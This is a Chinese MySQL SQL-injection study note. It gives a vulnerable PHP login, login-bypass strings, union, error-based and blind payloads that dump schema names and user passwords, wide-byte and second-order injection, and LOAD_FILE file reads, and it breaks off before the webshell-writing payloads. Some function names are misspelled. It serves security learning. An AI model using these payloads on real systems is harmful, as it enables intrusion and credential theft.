# Database安全学习—Mysql

Author: H3rmesk1t

Data: 2022.03.12

# SQL 注入
## 概念
所谓`SQL`注入, 简单来说就是开发者没有对用户的输入数据进行严格的限制或转义操作, 导致用户在`Web`表单等能与数据库交互的地方构造特殊的`SQL`命令, 从而来达到欺骗服务器, 泄露数据库的信息, 执行命令甚至`getshell`的目的.


下面给出示例代码, 模拟一个`Web`应用程序进行登录操作. 若登录成功, 则返回`success`; 否则返回`fail`.

```php
<?php
    $conn = mysqli_connect($servername, $username, $password, $dbname);
    if (!$conn) {
        die("Connection failed: " . mysqli_connect_error());
    }
    $username = @$_POST['username'];
    $password = @$_POST['password'];
    $sql = "select * from users where username = '$username' and password='$password';";
    $rs = mysqli_query($conn, $sql);
    if($rs->fetch_row()){
        echo "success";
    }else{
        echo "fail";
    }
?>
```

用户正常提交表单时的`SQL`语句为: `select * from users where username = 'xxx' and password = 'xxx';`. 而由于变量`$username`、`$password`均为用户可控输入内容, 因此当用户输入的`$username`为`admin'#`时, 提交表单的`SQL`语句为: `select * from users where username = 'admin'# and password = 'xxx';`. `#`是单行注释符, 可以将后边的内容给注释掉, 那么此条语句的语义将发生了变化, 用户可以不需要判断密码, 只需一个用户名即可完成登录操作, 这就导致了最简单的`SQL`注入漏洞.

## 种类
以注入点分类, 可以分为如下几类:
 - 数字型注入
 - 字符型注入
 - 搜索型注入
 - 宽字节注入
 - Base64 变形注入

以提交方式分类, 可以分为如下几类:
 - GET 注入
 - POST 注入
 - Cookie 注入
 - Referer 注入
 - User Agent 注入
 - X-Forwarded-For 注入

以执行效果分类, 可以分为如下几类:
 - 联合注入
 - 报错注入
 - 布尔盲注
 - 时间盲注
 - 堆叠注入


# MySQL 简介
[MySQL](https://baike.baidu.com/item/MySQL/471251#:~:text=MySQL%E6%98%AF%E4%B8%80%E4%B8%AA%E5%85%B3%E7%B3%BB,%E4%BD%9C%E4%B8%BA%E7%BD%91%E7%AB%99%E6%95%B0%E6%8D%AE%E5%BA%93%E3%80%82)是一个关系型数据库管理系统, 由瑞典`MySQL AB`公司开发, 属于`Oracle`旗下产品. `MySQL`是最流行的关系型数据库管理系统之一, 在`WEB`应用方面, `MySQL`是最好的`RDBMS`(Relational Database Management System)应用软件之一.

`MySQL`是一种关系型数据库管理系统, 关系数据库将数据保存在不同的表中, 而不是将所有数据放在一个大仓库内, 这样就增加了速度并提高了灵活性.

`MySQL`所使用的`SQL`语言是用于访问数据库的最常用标准化语言. `MySQL`软件采用了双授权政策, 分为社区版和商业版, 由于其体积小、速度快、总体拥有成本低, 尤其是开放源码这一特点, 一般中小型网站的开发都选择`MySQL`作为网站数据库.

一个完整的`MySQL`管理系统结构通常如下图, 可以看到`MySQL`可以管理多个数据库, 一个数据库可以包含多个数据表, 而一个数据表有含有多条字段, 一行数据正是多个字段同一行的一串数据.

<div align=center></div>


# MySQL 注入
在`MySQL`数据库中, 常见的对数据进行处理的操作有: 增、删、改、查这四种基本操作, 每一项操作都具有不同的作用, 共同构成了对数据的绝大部分操作, 与此同时也都具有着`SQL`注入的安全风险. 一个`MySQL`的查询语句完整格式如下:

```php
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```

## 常见基本函数
在`MySQL`中, 常用来获取基本信息的函数有:

```php
version()               # 查看当前数据库版本
@@version
@@global.vesion

user()                  # 查看当前登录用户
system_user()
current_user()
session_user()
current_user

sechma()                # 当前使用的数据库
database()

@@datadir               # 数据存储路径
@@basedir               # MySQL 安装路径
@@pid_file              # pid-file 文件路径
@@log_error             # 错误日志文件路径
@@slave_load_tmpdir     # 临时文件夹路径
@@character_sets_dir    # 字符集设置文件路径


@@version_compile_os	# 操作系统版本
```

## 常见字符串函数
在`MySQL`中, 常用来对字符串进行处理的函数有:

```php
mid()                   # 截取字符串
substr()
length()                # 返回字符串的长度
substring()						
left()                  # 从左侧开始取指定字符个数的字符串
concat()                # 没有分隔符的连接字符串
concat_ws()             # 含有分割符的连接字符串
group_concat()          # 连接一个组的字符串
ord()                   # 返回 ASCII 码
ascii()	
hex()                   # 将字符串转换为十六进制
unhex()                 # hex 的反向操作
md5()                   # 返回 MD5 值
round(x)                # 返回参数 x 接近的整数
floor(x)                # 返回不大于 x 的最大整数
rand()                  # 返回 0-1 之间的随机浮点数
load_file()             # 读取文件, 并返回文件内容作为一个字符串
sleep()                 # 睡眠时间为指定的秒数
if(true, t, f)          # if 判断
benchmark()             # 指定语句执行的次数
find_in_set()           # 返回字符串在字符串列表中的位置
```

## 重要的数据库
```php
information_schema                          # MySQL 系统表
mysql.innodb_table_stats                    # MySQL 默认存储引擎innoDB携带的表
mysql.innodb_index_stats
sys.schema_auto_increment_columns           # MySQL5.7 新增
sys.schema_table_statistics_with_buffer
```

## 重要的表

```php
schemata                # 数据库信息
schema_name

tables                  # 表信息
table_schema
table_name

columns                 # 字段信息
column_name
```

## 注入方式
例如: `http://www.test.com/sql.php?id=1`.
### 万能密码后台登陆
```sql
admin' --
admin' #
admin'/*
or '=' or
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
```

### 判断是否存在注入
#### 数值型注入
 - sql.php?id=1+1
 - sql.php?id=-1 or 1=1
 - sql.php?id=-1 or 10-2=8
 - sql.php?id=1 and 1=2
 - sql.php?id=1 and 1=1

#### 字符型注入
 - sql.php?id=1'
 - sql.php?id=1"
 - sql.php?id=1' and '1'='1
 - sql.php?id=1" and "1"="1

### 联合查询注入

```sql
# 判断 SQL 语句中一共返回了多少列
order by 3 --+

# 查看显示位
union select 1, 2, 3 --+

# 爆数据
union select 1, version(), database() --+

# 爆出单个数据库
union select 1, database(), schema_name from information_schema.schemata limit 0, 1 --+		

# 爆出全部数据库
union select 1, database(), group_concat(schema_name) from information_schema.schemata --+

# 爆出数据库 security 里的单个表名
union select 1, database(), (select table_name from information_schema.tables where table_schema = database() limit 0, 1) --+	

# 爆出数据库 security 里的所有表名
union select 1, database(), (select group_concat(table_name) from information_schema.tables where table_schema = database()) --+

# 从表名 users 中爆出一个字段来
union select 1, database(), (select column_name from information_schema.columns where table_schema = database() and table_name = 'users' limit 0, 1) --+

# 从表名 users 中爆出全部字段来
union select 1, database(), (select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 'users' ) --+

# 从 users 表里对应的列名中爆出一个数据来
union select 1, database(), concat(id, 0x7e, username, 0x3A, password, 0x7e) from users limit 0,1 --+

# 从 users 表里对应的列名中爆出所有数据来
union select 1, database(), (select group_concat(concat(id, 0x7e, username, 0x3A, password, 0x7e)) from users) --+
```

### 报错注入
数据库报错注入版本限制:

|报错函数|数据库版本(5.0.96、5.1.60、5.5.29、5.7.26、8.0.12)|
|:----:|:----:|
|extractvalue|5.1.60、5.5.29、5.7.26、8.0.12|
|updatexml|5.1.60、5.5.29、5.7.26、8.0.12|
|floor|5.0.96、5.1.60、5.5.29、5.7.26|
|exp|5.5.29|
|geometrycollection|5.1.60、5.5.29|
|linestring|5.1.60、5.5.29|
|polygon|5.1.60、5.5.29|
|multipoint|5.1.60、5.5.29|
|multipolygon|5.1.60、5.5.29|
|multilinestring|5.1.60、5.5.29|

#### extractvalue
```sql
# 当前数据库
and extractvalue(1,concat(0x7e,(select database()),0x7e)) --+

# 爆出一个数据库, 需要注意显示长度存在限制, 太长的话不会显示全
and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e)) --+

# 从当前数据库里爆出一个表名
and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+

# 从当前数据库里的 users 表里爆出一个字段名来 
and extractvalue(1,concat(0x7e,( select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1 ),0x7e)) --+

# 从 users 表里对应的列名中爆出一个数据来
and extractvalue(1,concat(0x7e,( select concat(id,0x7e,username,0x7e,password) from users limit 0,1),0x7e)) --+
```

#### updatexml
```sql
# 当前版本
and updatexml(1,concat(0x7e,(select version()),0x7e),3) --+

# 爆出一个数据库, 需要注意显示长度存在限制, 太长的话不会显示全
and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),3) --+	 

# 从当前数据库里爆出一个表名
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),3) --+

# 从当前数据库里的 users 表里爆出一个字段名来 
and updatexml(1,concat(0x7e,( select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1 ),0x7e),3) --+

# 从 users 表里对应的列名中爆出一个数据来
and updatexml(1,concat(0x7e,( select concat(id,0x7e,username,0x7e,password) from users limit 0,1),0x7e),3) --+
```

#### floor
```sql
# 当前版本
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 爆出一个数据库
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 从当前数据库里爆出一个表名
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 从当前数据库里的 users 表里爆出一个字段名来
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='security' and table_name='users' LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 从 users 表里对应的列名中爆出一个数据来
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM users limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+
```

#### exp
```sql
and (select exp(~(select * from(select version())x))); --+
```

#### geometrycollection
```sql
and geometrycollection((select * from(select * from(select version())a)b)); --+
```

#### linestring
```sql
and linestring((select * from(select * from(select version())a)b)); --+
```

#### polygon
```sql
and polygon((select * from(select * from(select version())a)b)); --+
```

#### multipoint
```sql
and multipoint((select * from(select * from(select version())a)b)); --+
```

#### multipolygon
```sql
and multipolygon((select * from(select * from(select version())a)b)); --+
```

#### multilinestring
```sql
and multilinestring((select * from(select * from(select version())a)b)); --+
```

#### 不存在的函数
在`MySQL`中, 当选择一个不存在的函数时, 可能会得到当前所在的数据库名称.

<div align=center></div>

### 布尔盲注
以下语句均可以用大于、小于号结合二分法的方式来进行判断, 从而缩短注入所消耗的时长.
#### 判断长度
```sql
# 判断当前数据库的长度
and length(database())=8 --+

# 判断当前数据库里有几张表
and ((select count(*) from information_schema.tables where table_schema=database())=4) --+

# 判断每张表的长度
and  length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+
and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=1--+

# 判断表 users 的列数
and ((select count(*) from information_schema.columns where table_schema=database() and table_name='users')=3) --+

# 判断某张表的列数
and ((select count(*) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3) --+

# 判断某张表里对应的字段的数据的长度
and  length((select username from users where id =1))=4 --+
and  length((select password from users where id =1))=4 --+
```

#### 爆破内容
```sql
# 猜测当前数据库的名字
and ascii(substr((select database()),1))=115--+

# 猜测某张表的表名
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),5))=115 --+

# 猜测某张表里的某个列名
and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),8))=101 --+

# 猜测某张表里列名为 username 的数据
and ascii(substr((select username from users limit 0,1),1)) = 68--+
```

### 时间盲注
时间盲注主要是在布尔盲注的基础上, 利用可延时函数进行判断. 主要可以分为以下几种:
 - sleep
```sql
# 表达式为 Ture 时, 页面卡住 5 秒, 否则页面卡住一秒.
and if(length(database())=8,sleep(5),1) --+
```
 - benchmark
```sql
# 表达式为 Ture 时, 页面卡住 5 秒, 否则页面卡住一秒.
and if(length(database())=8,benchmark(10000000,sha(1)),1) --+
```
 - 笛卡尔积
```sql
# 延迟不精确, count()数量大时, 费时就高; count()数量小时, 费时就低.
and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C); --+
```
 - get_lock
```sql
# ctf表被锁住的前提下, 才会延迟 5 秒后进行判断(0=1), 否则不延迟就进行判断(1=1)
and get_lock('ctf',5)=1 --+
```
 - rlike
```sql
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```

### 堆叠注入
堆叠注入在`MySQL`上不常见, 必须要用到`mysqli_multi_query`或者`PDO`, 可以用分号分割来执行多个语句, 相当于可直连数据库. 由于分号`;`为`MySQL`语句的结束符, 若在支持多语句执行的情况下, 可利用此方法执行其他恶意语句, 如`RENAME`、`DROP`等.

注意, 通常多语句执行时, 若前条语句已返回数据, 则之后的语句返回的数据通常无法返回前端页面. 因此可以使用`union`联合注入, 若无法使用联合注入, 可考虑使用`RENAME`关键字, 将想要的数据列名/表名更改成返回数据的`SQL`语句所定义的表/列名. 参考: [2019强网杯——随便注](https://blog.csdn.net/qq_44657899/article/details/103239145).

PHP中堆叠注入的支持情况, 参考: [PDO场景下的SQL注入探究](https://xz.aliyun.com/t/3950). 

||Mysqli|PDO|MySQL|
|:----:|:----:|:----:|:----:|
|引入的PHP版本|5.0|5.0|3.0之前|
|PHP5.x是否包含|是|是|是|
|多语句执行支持情况|是|大多数|否|

### 二次注入
二次注入, 就是攻击者构造的恶意`payload`首先会被服务器存储在数据库中, 在之后取出数据库在进行`SQL`语句拼接时产生的`SQL`注入问题.

例如, 下面的查询当前登录用户信息的`SQL`语句, 假设经过了`addslashes`函数、单引号闭合的处理, 且无编码产生的问题. 

```sql
select * from users where username = '$_SESSION['username']';
```

可以先注册一个名为`admin' #`的用户名, 因为在注册进行了单引号的转义, 因此并不能直接进行`insert`注入, 注册的用户名存储在了服务器中. 注意: 反斜杠转义掉了单引号, 在`MySQL`中得到的数据并没有反斜杠的存在.

当进行登录操作的时候, 用注册的`admin' #`登录系统, 并将用户部分数据存储在对于的`SESSION`中, 如`$_SESSION['username']`. 由于`$_SESSION['username']`并没有经过处理, 会直接拼接到`SQL`语句中, 就会造成`SQL`注入, 最终的语句为:

```sql
select * from users where username='admin' #'
```

### 宽字节注入
先来看看相应的示例代码, 其中`addslashes`函数将会把`POST`接收到的`username`与`password`的部分字符进行转义处理:
 - 字符`'`、`"`、`\`前边会被添加上一条反斜杠`\`作为转义字符.
 - 多个空格被过滤成一个空格.

```php
<?php
    $conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
    if (!$conn) {
        die("Connection failed: " . mysqli_connect_error());
    }
    $conn->query("set names 'gbk';");
    $username = addslashes(@$_POST['username']);
    $password = addslashes(@$_POST['password']);
    $sql = "select * from users where username = '$username' and password ='$password';";
    $rs = mysqli_query($conn,$sql);
    echo $sql.'<br>';
    if($rs->fetch_row()){
        echo "success";
    }else{
        echo "fail";
    }
?>
```

在示例代码中, 存在一条特殊的语句`$conn->query("set names 'gbk';");`, 其作用相当于:

```sql
SET character_set_client = 'gbk';
SET character_set_results = 'gbk';
SET character_set_connection = 'gbk';
```

当输入的数据为`username=%df%27or%201=1%23&password=123`, 经过`addslashes`函数处理最终变成`username=%df%5c%27or%201=1%23&password=123`, 经过`gbk`解码得到`username=運'or 1=1#`、`password=123`, 拼接得到`SQL`语句如下, 成功跳出了`addslashes`的转义限制:

```sql
select * from users where username = '運'or 1=1#' and password='123';
```
原理如下: 
 - 在`SQL`语句在与数据库进行通信时, 会先将`SQL`语句进行对应的`character_set_client`所设置的编码进行转码, 即转变为`gbk`编码. 由于`PHP`的编码为`UTF-8`, 因此当输入的内容为`%df%27`时, 会被当做是两个字符, 经过函数`addslashes`处理变成`%df%5c%27`, 在经过客户端层`character_set_client`编码处理后变成`運`, 成功将反斜线去除, 使单引号逃逸出来. 可参考[浅析白盒审计中的字符编码及SQL注入](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html).


### 无列名注入
无列名注入一般伴随着`bypass information_schema`, 当这个表被过滤的时候, 只能使用`sys.schema_auto_increment_columns`、`sys.schema_table_statistics_with_buffer`、`mysql.innodb_table_stats`等等进行绕过, 但是这些表中一般都没有字段名, 只能获得表名, 因此当知道表明之后, 还需要进一步地使用无列名注入.

#### 列名重复(join……using)
使用条件: 需要开启报错.

```sql
select * from (select * from users a join users b)c;
select * from (select * from users a join users b using(id))c;
select * from (select * from users a join users b using(id,username))c;
```

<div align=center></div>

`join……using`原理: `JOIN`子句用于基于表之间的共同字段把来自两个或多个表的行结合起来.

```sql
select * from users join catfishblog_users on users.id = catfishblog_users.id;
```

<div align=center></div>

```sql
select * from users join catfishblog_users using(id);
```

<div align=center></div>

```sql
select * from users,catfishblog_users where users.id = catfishblog_users.id;
```

<div align=center></div>

再来看看在外边套一层`select`的情况, 可以看到只有`using`不会报错, 而其它两个都报了列名重复的错误并且指出了具体的列名.

```sql
select * from (select * from users join catfishblog_users on users.id = catfishblog_users.id)a;
select * from (select * from users join catfishblog_users using(id))a;
select * from (select * from users,catfishblog_users where users.id = catfishblog_users.id)a;
```

<div align=center></div>

假设不知道任何列名, 把后面的`on`、`using`、`where`都删去. 此时都可以爆出第一个字段, 但是当知道了第一个字段, 想要爆出第二个字段的时候, 结果就不一样了. 这是因为`users`和`catfishblog_users`只有一个列名重复, 所以`join`两个一样的表, 同时还需要给这两个表取两个别名.

```sql
select * from (select * from users a join users b on a.id = b.id)a;
select * from (select * from users a join users b using(id))a;
select * from (select * from users a,users b where a.id = b.id)a;
```

<div align=center></div>

#### 通过别名&&引用列名(union)
使用条件: 存在查询内容回显.

依旧还是上述的数据库内容, 假设不知道`users`的字段名, 可以将其列名转化为别名: `select 1,2,3 union select * from users;`.

<div align=center></div>

然后可以引用这个已知的别名来获得数据, 需要注意的是对于`select 数字`时, 数字需要加上反引号(后面的命令中没加是为了书写文档方便): `select 2 from (select 1,2,3 union select * from users)x;`.

<div align=center></div>

当反引号被`ban`的时候可以使用别名: `select a from (select 1,2 a,3 union select * from users)x;`.

<div align=center></div>

或者使用双引号: `select a from (select 1,"a",3 union select * from users)x;`.

<div align=center></div>

#### 比较盲注
在上文提到的两种无列名注入攻击中, 分别需要存在报错或者回显, 这对于盲注来说不是很友好, 因此比较盲注方式应运而生. 在知道表名的情况下可以先`select`出想要的内容, 然后再构造一个内容与其比较, 作为盲注时判断的条件.

先构造`select 1,0,0;`, 然后与其比较`select (select ((select x,0,0)>(select * from users limit 1)));`, 当`x`为`1`时查询结果为`false`, 为`2`时查询结果为`true`, 因此可以知道第一个字段的值为`1`, 其它的依次类推, 字母也是一样的.

<div align=center></div>

<div align=center></div>

### 其它注入
主要为上文提到的以提交方式分类的其它几种注入方式, 例如`User-Agent`头字段注入、`Referer`头字段注入、`Cookie`头字段注入、`XFF`头字段注入等.

### 文件读写
这里把文件读取相关知识放在注入方式中, 是因为其利用方式也是通过`SQL`注入来导入、导出文件, 从而来获取文件内容或者是向文件写入内容, 故是一种特殊的注入方式.

查询用户读写权限:
```sql
select file_priv from mysql.user where user = 'username';
```

#### 文件读取
通常使用`load_file()`或`load data infile`或`load data local infile`来进行文件读取操作, 它们读取文件的原理都是一样的, 新建一个表, 读取文件为字符串形式插入表中后读取表中的数据, 使用前提条件:
 - `secure_file_priv`不为`NULL`, 可以使用`select @@secure_file_priv`查看其值, 值不为空字符串时, 只能使用该目录进行文件的读写操作.
 - 当前数据库用户具有`FILE`权限, 使用`show grants`查看.
 - 系统用户`mysql`对该文件可读(要考虑系统的访问控制策略, 在`Ubuntu-18.04`使用`MySQL`时默认的系统用户是`mysql`).
 - 读取文件的大小小于`max_allowed_packet`, 可以使用`select @@max_allowed_packet`查看.
 - 需要知道文件的绝对物理路径.

`secure_file_priv`的值:
 - `secure_file_priv`为`NULL`时, 表示不允许导入导出.
 - `secure_file_priv`指定文件夹时, 表示`MySQL`的导入导出只能发生在指定的文件夹.
 - `secure_file_priv`没有设置时, 则表示没有任何限制.

`Payload`如下, 需要注意对路径中斜杠的处理(在对`WINDOWS`系统进行注入时):

```sql
UNION SELECT LOAD_FILE("C:/shell.php")
UNION SELECT LOAD_FILE("C://shell.php")
UNION SELECT LOAD_FILE("C:\\shell.php")
UNION SELECT LOAD_FILE(CHAR(67,58,92,92,115,104,101,108,108,46,112,104,112))
UNION SELECT LOAD_FILE(0x433a7368656c6c2e706870)
```

#### 文件写入
通常使用`INTO OUTFILE`来进行文件写入操作, 使用前提条件:
 - `secure_file_priv`不为`NULL`, 可以使用`select @@secure_file_priv`查看其值, 值不为空字符串时, 只能使用该目录进行文件的读写操作.
 - 当前数据库用户具有`FILE`权限, 使用`show grants`查看.
 - 系统用户`mysql`对该文件可读(要考虑系统的访问控制策略, 在`Ubuntu-18.04`使用`MySQL`时默认的系统用户是`mysql`).
 - 读取文件的大小小于`max_allowed_packet`, 可以使用`select @@max_allowed_packet`查看.
 - 需要知道网站的绝对物理路径, 确保导出后的`webshell`可访问, 且对需导出的目录有可写权限.

`Payload`如下, 需要注意对路径中斜杠的处理(在对`WINDOWS`系统进行注入时):
```sql
